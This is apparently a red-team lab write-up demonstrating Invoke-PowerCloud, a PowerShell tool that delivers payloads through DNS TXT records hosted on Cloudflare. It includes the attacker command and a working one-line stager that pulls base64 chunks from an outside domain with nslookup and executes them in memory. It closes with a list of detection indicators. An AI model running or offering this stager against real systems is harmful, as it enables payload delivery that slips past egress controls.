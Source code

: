 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file
* Divide the payload file into chunks of 255 bytes and base64 encode them
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with autoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code-tabs %}
{% code-tabs-item title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

### Animated Demo

Everything in action can be seen in the below gif:

![](../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs \(mix and match\) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` \(trivial to change/randomize\)
* DNS answers are all `TTL = 120` \(trivial to change/randomize\)
* TXT data in DNS answer has no white spaces \(easy to change\)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-12-57.png)

Spike of `nslookup` for a host in a short amount of time:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-17-42.png)

Below is a sample PCAP for your inspection:

{% file src="../.gitbook/assets/dns-packets.pcapng" caption="DNS Traffic Packet Trace" %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}

